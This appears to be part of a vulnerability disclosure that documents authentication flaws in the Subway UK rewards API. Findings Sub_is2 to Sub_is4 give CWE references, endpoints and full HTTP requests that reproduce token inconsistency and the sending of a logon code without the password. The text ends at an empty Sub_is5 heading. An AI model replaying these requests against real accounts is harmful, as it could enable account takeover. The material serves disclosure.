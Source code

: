 # Sub_is2

| Sub_is2 |  |
| :---: | :-- |
| Weakness | [CWE - CWE-1250: Improper Preservation of Consistency Between Independent Representations of Shared State (4.8) (mitre.org)](https://cwe.mitre.org/data/definitions/1250.html) |
| Description | Refreshed token is reissued with primary unchanged email |
| Cause/Reference | [Sub_is1](#sub_is1) |
| URL/Location | https://rewards.subway.co.uk/tx-auth/auth/refresh |
| Action | POST https://rewards.subway.co.uk/tx-auth/auth/refresh HTTP/1.1 </br> Authorization: JWT= </br> moduleCode: SUB_STORMBORN </br> X-Requested-With: com.subway.subway </br> User-Agent: Mozilla/5.0 ([...]) </br> Content-Type: application/json </br>  </br> {"masterToken":"MT=="} |
| Result | {"token":"JWT="} contains userName that mismatches the changed email |

# Sub_is3

| Sub_is3 |  |
| :---: | :-- |
| Weakness | [CWE - CWE-1250: Improper Preservation of Consistency Between Independent Representations of Shared State (4.8) (mitre.org)](https://cwe.mitre.org/data/definitions/1250.html) |
| Description | After email change logon code is sent to updated email |
| Cause/Reference | [Sub_is1](#sub_is1) |
| URL/Location | https://rewards.subway.co.uk/tx-auth/auth/logon |
| Action | POST https://rewards.subway.co.uk/tx-auth/auth/logon HTTP/1.1 </br> moduleCode: SUB_STORMBORN </br> X-Requested-With: com.subway.subway </br> User-Agent: Mozilla/5.0 ([...]) </br> Content-Type: application/json </br>  </br> {"username":"primary-email@example.com","password":"pwd"} |
| Result | Logon code is sent to changed/updated email, not primary |

# Sub_is4

| Sub_is4 |  |
| :---: | :-- |
| Weakness | [CWE - CWE-288: Authentication Bypass Using an Alternate Path or Channel (4.8) (mitre.org)](https://cwe.mitre.org/data/definitions/288.html) </br> [CWE - CWE-372: Incomplete Internal State Distinction (4.8) (mitre.org)](https://cwe.mitre.org/data/definitions/372.html) |
| Description | Logon initialization possible without knowledge of password |
| Cause/Reference |  |
| URL/Location | https://rewards.subway.co.uk/tx-sub/registration/resendCode |
| Action | POST https://rewards.subway.co.uk/tx-sub/registration/resendCode HTTP/1.1 </br> moduleCode: SUB_STORMBORN </br> X-Requested-With: com.subway.subway </br> User-Agent: Mozilla/5.0 ([...]) </br> Content-Type: application/json </br>  </br> {"email":"primary-email@example.com"} |
| Result | Logon code for the account with the specified primary email is sent without the need for the password |

# Sub_is5
